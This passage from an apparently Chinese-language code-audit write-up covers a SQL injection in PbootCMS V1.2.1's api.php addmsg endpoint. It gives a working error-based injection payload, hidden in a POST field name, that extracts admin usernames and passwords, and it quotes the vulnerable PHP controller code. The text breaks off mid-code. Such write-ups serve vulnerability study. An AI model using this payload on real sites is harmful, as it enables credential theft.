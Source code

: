 ### 0x10.2.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
post:
    contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 111 
```

![image](img/67a1df96b0c52d616b06bf20b3e57b6d.png)

0x10.2.2 漏洞讲解 文件：PbootCMS-V1.2.1\apps\api\controller\CmsController.php 方法：addmsg(

```
// 新增留言   注入
    public function addmsg()
    {
        if ($_POST) {

            // 读取字段
            if (! $form = $this->model->getFormField(1)) {
                json(0, '接收表单不存在任何字段，请核对后重试！');
            }

            // 接收数据
            $mail_body = '';
            foreach ($form as $value) {
                $field_data = post($value->name);
                if ($value->required && ! $field_data) {
                    json(0, $value->description . '不能为空！');
                } else {
                    $data[$value->name] = post($value->name);
                    $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                }
            }

            // 设置其他字段
            if ($data) {
                $data['acode'] = get('acode', 'var') ?: $this->lg;
                $data['user_ip'] = ip2long(get_user_ip());
                $data['user_os'] = get_user_os();
                $data['user_bs'] = get_user_bs();
                $data['recontent'] = '';
                $data['status'] = 0;
                $data['create_user'] = 'api';
                $data['update_user'] = 'api';
```